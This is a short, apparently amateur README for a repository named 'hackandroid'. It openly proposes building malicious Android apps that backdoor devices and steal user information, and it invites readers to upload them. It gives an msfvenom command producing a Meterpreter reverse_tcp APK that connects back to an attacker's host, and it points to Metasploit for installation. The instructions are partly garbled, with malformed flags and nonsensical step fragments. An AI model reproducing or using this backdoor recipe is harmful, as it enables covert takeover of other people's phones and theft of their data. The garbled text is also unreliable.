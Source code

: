 # hackandroid
hackandroid


Creating a malicious programme that launches backdoor to android and grab user info from wifi to all kinda stuff
using msfvenom and upload programe to this page so everyone knows
its not a payload its an backdoor to your device 
==> list your programme
==> upload your programme
==> enjoy now!

==>HACK_LATER!!!


install msfconsole and msfvenom 
run this on terminal msfvenom -p android/meterpreter/reverse_tcp -LHOST <ifconfig on otherterminal(ip)> -LPORT <no ssh(port number)> >> <filename>.apk execute<venom><upload><save><run> <traceback>.md
  
  venom install in package
  
  install metasploit-framework now
  link ==>> <https://github.com/trustedsec/metasploit-framework.git> <frame-work:;>
